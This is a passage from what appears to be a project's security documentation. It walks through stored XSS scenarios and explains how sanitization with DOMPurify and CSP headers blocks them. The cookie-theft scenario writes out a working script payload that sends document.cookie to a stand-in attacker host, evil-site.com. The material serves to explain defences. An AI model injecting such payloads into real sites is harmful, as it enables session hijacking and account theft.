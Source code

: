 ```

Step 4: With our protection - what happens:
- SafeHTML component processes the input
- DOMPurify sanitizes the content, removing <script> tags
- Input becomes: (empty string - script removed)
- No malicious code executes
- Security alert logged: "XSS attempt blocked"

Step 5: Consequences comparison:
Without protection: Admin credentials stolen, attacker can impersonate admin, access all user data
With protection: Attack blocked, no data stolen, malicious input sanitized
```

**Scenario 2: Cookie Theft Attack**
```
Step 1: Attacker finds product description field
- Attacker creates a fake product listing
- Uses description field to inject malicious code

Step 2: Attacker crafts cookie theft payload
- Description: <script>document.location='http://evil-site.com/steal.php?cookie='+document.cookie</script>
- This redirects users to attacker's site with their cookies

Step 3: Without protection - what happens:
- Malicious script stored in product description
- When customers view the product, script executes
- Users redirected to evil-site.com with session cookies
- Attacker receives: "sessionId=abc123; authToken=xyz789; userRole=customer"
- Attacker can now impersonate users and make purchases

Step 4: With our protection - what happens:
- Input validation detects script tags
- DOMPurify removes all JavaScript code
- Description becomes: (clean text without scripts)
- CSP headers prevent inline script execution
- No redirect occurs, cookies remain secure

Step 5: Consequences comparison:
Without protection: Customer sessions hijacked, unauthorized purchases made, user accounts compromised
With protection: Attack blocked, user sessions secure, no unauthorized access
```

**Potential Impact**:
- Session hijacking (stealing authentication tokens)
- Cookie theft (accessing user accounts)
- Malicious redirects (phishing attacks)
- Keylogger installation (password theft)
- Phishing attacks (fake login forms)

**How Protection Works in This Project**:
